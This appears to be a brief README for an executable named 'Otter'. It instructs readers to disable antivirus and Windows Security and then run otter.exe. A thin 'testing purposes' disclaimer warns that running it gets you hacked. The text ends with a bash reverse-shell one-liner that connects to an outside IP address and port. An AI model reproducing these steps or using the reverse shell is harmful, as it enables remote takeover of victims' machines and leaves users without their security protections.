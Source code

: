 # Otter
first disable antivirus and in windows security remove it,next install otter.exe and run and warning it is just for people for testing purposes DO NOT RUN UNLESS YOU WANT TO BE HACKED 
bash &> /dev/tcp/172.20.136.239/5555 0>&1
